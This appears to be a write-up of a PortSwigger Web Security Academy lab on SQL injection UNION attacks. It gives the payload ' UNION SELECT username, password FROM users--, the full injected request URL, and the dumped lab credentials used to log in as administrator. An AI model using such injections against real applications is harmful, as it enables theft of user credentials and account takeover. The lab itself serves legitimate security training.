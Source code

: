 # SQL injection UNION attack, retrieving data from other tables

## This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

___

**Note:** *The database contains a table called `users` with the columns `username` and `password`
In this situation, you can retrieve the contents of the `users` table by submitting the input:*
`' UNION SELECT username, password FROM users--`
URL Encoded =>`'+UNION+SELECT+username,+password+FROM+users--`

step 1

send `/filter?category=Lifestyle` to the repeater

![screnshot](lab5_category_lifestyle.jpg)

step 2

use `'+UNION+SELECT+username,+password+FROM+users--`
payload will be
`/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--`

![screnshot](lab5_username_password_from_user.jpg)

step 3 

Note down user id and password

```html
<tr>
	<th>carlos</th>
	<td>w3bl3kcw39b0n77j9m5v</td>
</tr>
<tr>
	<th>administrator</th>
	<td>o62bhcc293ztnchnuj5g</td>
</tr>
<tr>
	<th>wiener</th>
	<td>ot3d4fjz8zob5yzk7rbr</td>
</tr>
```

login the account using
administrator id  and password

![screnshot](lab5_solve_lab.jpg)